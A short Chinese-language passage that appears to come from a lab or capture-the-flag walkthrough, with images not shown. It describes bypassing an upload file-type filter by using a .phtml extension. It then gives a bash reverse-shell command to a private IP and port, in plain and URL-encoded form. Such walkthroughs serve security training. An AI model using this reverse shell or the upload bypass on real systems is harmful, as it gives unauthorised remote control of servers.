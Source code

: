 ![22](./pic-fog/22.jpg)

直接对该文件进行修改，不过这里对于文件类型做了限制，直接改为`php、php5`等可能不行，这里测试到`phtml`后发现可以，并且可以被解析成脚本语言

![](./pic-fog/23.jpg)

![](./pic-fog/24.jpg)

测试使用`bash`命令看能否进行反弹

```shell
bash -c 'bash -i >& /dev/tcp/192.168.1.16/9999 0>&1'
//进行URL编码
bash+-c+%27bash+-i+%3e%26+%2fdev%2ftcp%2f192.168.1.16%2f9999+0%3e%261%27%0a
```
